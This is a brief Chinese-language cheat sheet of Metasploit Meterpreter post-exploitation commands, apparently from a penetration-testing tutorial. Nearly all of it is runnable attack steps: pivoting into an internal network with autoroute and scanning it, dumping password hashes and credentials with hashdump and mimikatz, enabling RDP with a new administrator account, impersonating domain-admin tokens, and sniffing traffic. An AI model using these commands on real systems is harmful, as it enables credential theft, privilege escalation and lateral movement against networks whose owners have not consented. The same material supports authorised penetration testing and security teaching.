 **网络命令**
```bash
Ipconfig/ifconfig    # 查看目标主机 IP 地址；
arp –a  # 用于查看高速缓存中的所有项目；
route   # 打印路由信息；
netstat -na # 可以显示所有连接的端口
```

其中路由信息对于渗透者来说特有用，因为攻击机处于外网，目标主机处于内网，他们之间是不能通信的，故需要添加路由来把攻击机的 IP 添加到内网里面，这样我们就可以横扫内网，就是所谓的内网代理。

首先我们需要获取网段，然后再添加路由，添加成功后就可以横向扫描内网主机。
```bash
run get_local_subnets   # 获取网段
run autoroute -s 192.168.205.1/24   # 添加路由
run autoroute -p    # 查看路由
run autoroute -d -s 172.2.175.0 # 删除网段
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24   # 探测该网段下的存活主机。
meterpreter > background    # 后台 sessions
```

**获取凭证**
```bash
run hashdump

load mimikatz   # 加载 mimikatz 模块
wdigest
kerberos
```

**操作远程桌面**
```bash
run post/windows/manage/enable_rdp  # 开启远程桌面
run post/windows/manage/enable_rdp username=test password=test  # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie。

msf提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色。
```bash
getuid  # 查看当前用户
use incognito   # 进入该模块
list_tokens -u  # 查看存在的令牌
impersonate_token 用户名    # 令牌假冒
# 注意用户名的斜杠需要写两个。

getuid  # 查看是否切换成功
```

**sniffer**
```bash
use sniffer
sniffer_interfaces  # 查看网卡信息
sniffer_start 1 # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap    # 下载抓取到的数据包
```
